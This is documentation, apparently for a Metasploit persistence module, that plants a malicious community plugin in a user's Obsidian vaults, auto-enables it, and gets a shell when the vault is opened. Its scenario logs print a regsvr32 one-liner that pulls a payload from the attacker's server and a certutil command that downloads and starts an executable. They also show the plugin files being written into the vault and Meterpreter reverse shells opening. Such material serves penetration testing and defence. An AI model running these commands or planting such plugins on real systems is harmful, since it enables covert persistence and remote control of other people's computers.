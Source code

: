 ## Vulnerable Application

This module searches for Obsidian vaults for a user, and uploads a malicious
community plugin to the vault. The vaults must be opened with community
plugins enabled (NOT restricted mode), but the plugin will be enabled
automatically.

Tested against Obsidian 1.7.7 on Kali, Ubuntu 22.04, and 1.8.4 on Windows 10.

### Debugging

To open the console (similar to chrome), use `ctr+shift+i`.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get a user shell on the target
4. Do: `use multi/persistence/obsidian_plugin`
5. Do: Select a shell which will work on your target OS
6. Do: `run`
7. You should get a shell when the target user opens the vault without restricted mode.

## Options

### NAME

Name of the plugin. Defaults to being randomly generated.

### USER

The user to target. Defaults the user the shell was obtained under.

### CONFIG

Config file location on target. Defaults to empty which will search the default locations.

## Scenarios

### Obsidian 1.8.4 on Windows 10

Get a user shell.

```
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set target 3
target => 3
resource (/root/.msf4/msfconsole.rc)> set srvport 8282
srvport => 8282
resource (/root/.msf4/msfconsole.rc)> set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4646
lport => 4646
resource (/root/.msf4/msfconsole.rc)> set URIPATH w
URIPATH => w
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4646 
[*] Using URL: http://111.111.1.111:8282/w
[*] Server started.
[*] Run the following command on the target machine:
regsvr32 /s /n /u /i:http://111.111.1.111:8282/w.sct scrobj.dll
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] 222.222.2.22     web_delivery - Handling .sct Request
[*] 222.222.2.22     web_delivery - Powershell command length: 3696
[*] 222.222.2.22     web_delivery - Delivering Payload (3696 bytes)
[*] Sending stage (203846 bytes) to 222.222.2.22
[*] Meterpreter session 1 opened (111.111.1.111:4646 -> 222.222.2.22:50125) at 2025-02-17 09:00:05 -0500
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/multi/persistence/obsidian_plugin 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(multi/persistence/obsidian_plugin) > sessions -i 1
[*] Starting interaction with 1...
(Meterpreter 1)(C:\Users\windows) > getuid
Server username: WIN10PROLICENSE\windows
(Meterpreter 1)(C:\Users\windows) > sysinfo
Computer        : WIN10PROLICENSE
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
(Meterpreter 1)(C:\Users\windows) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/persistence/obsidian_plugin) > set payload payload/cmd/windows/http/x64/meterpreter/reverse_tcp
payload => cmd/windows/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(multi/persistence/obsidian_plugin) > exploit
[*] Command to run on remote host: certutil -urlcache -f http://111.111.1.111:8080/xCXtwaKhxivsa8DBsy06mQ %TEMP%\MvboVJyBQSJ.exe & start /B %TEMP%\MvboVJyBQSJ.exe
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(multi/persistence/obsidian_plugin) > 
[*] Fetch handler listening on 111.111.1.111:8080
[*] HTTP server started
[*] Adding resource /xCXtwaKhxivsa8DBsy06mQ
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Using plugin name: kuCPva
[*] Target User: windows
[*] Found user obsidian file: C:\Users\windows\AppData\Roaming\obsidian\obsidian.json
[+] Found open vault 73fefafd47723a1b: C:\Users\windows\Desktop\this_is_my_vault
[*] Uploading plugin to vault C:\Users\windows\Desktop\this_is_my_vault
[*] Uploading: C:\Users\windows\Desktop\this_is_my_vault/.obsidian/plugins/kuCPva/main.js
[*] Uploading: C:\Users\windows\Desktop\this_is_my_vault/.obsidian/plugins/kuCPva/manifest.json
[*] Found 4 enabled community plugins (AHBk, CbJt, tjPCOxub9, UOQEhHOR)
[+] Config file saved in: /root/.msf4/loot/20250217091115_default_222.222.2.22_obsidian.communi_029034.txt
[*] adding kuCPva to the enabled community plugins list
[+] Plugin enabled, waiting for Obsidian to open the vault and execute the plugin.
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/WIN10PROLICENSE_20250217.1116/WIN10PROLICENSE_20250217.1116.rc
[*] Client 222.222.2.22 requested /xCXtwaKhxivsa8DBsy06mQ
[*] Sending payload to 222.222.2.22 (Microsoft-CryptoAPI/10.0)
[*] Client 222.222.2.22 requested /xCXtwaKhxivsa8DBsy06mQ
[*] Sending payload to 222.222.2.22 (CertUtil URL Agent)
[*] Sending stage (203846 bytes) to 222.222.2.22
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.22:50145) at 2025-02-17 09:11:41 -0500
```